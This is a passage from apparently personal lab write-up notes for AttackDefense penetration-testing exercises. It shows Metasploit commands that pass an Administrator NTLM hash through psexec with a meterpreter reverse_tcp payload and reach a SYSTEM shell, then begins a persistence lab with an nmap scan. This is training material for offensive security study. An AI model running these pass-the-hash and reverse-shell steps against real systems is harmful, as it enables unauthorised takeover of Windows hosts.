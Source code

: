 * **Use PSExec to login with `Administrator` user and its password hashes**

```bash
exit
search psexec
use exploit/windows/smb/psexec
options
set payload windows/x64/meterpreter/reverse_tcp
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
exploit
```

```bash
getuid
	Server username: NT AUTHORITY\SYSTEM

sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows
```

***

## Lab 6 - Persistence <a href="#lab-6-persistence" id="lab-6-persistence"></a>

> 🔬 [Maintaining Access: Persistence Service](https://attackdefense.com/challengedetails?cid=2140)
>
> * Target IP: `10.0.23.90`
> * Metasploit **persistence** modules

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.0.23.90
workspace -a Persistence
db_nmap -sV 10.0.23.90
```

```bash
[*] Nmap: Not shown: 991 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 80/tcp    open  http               HttpFileServer httpd 2.3
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```
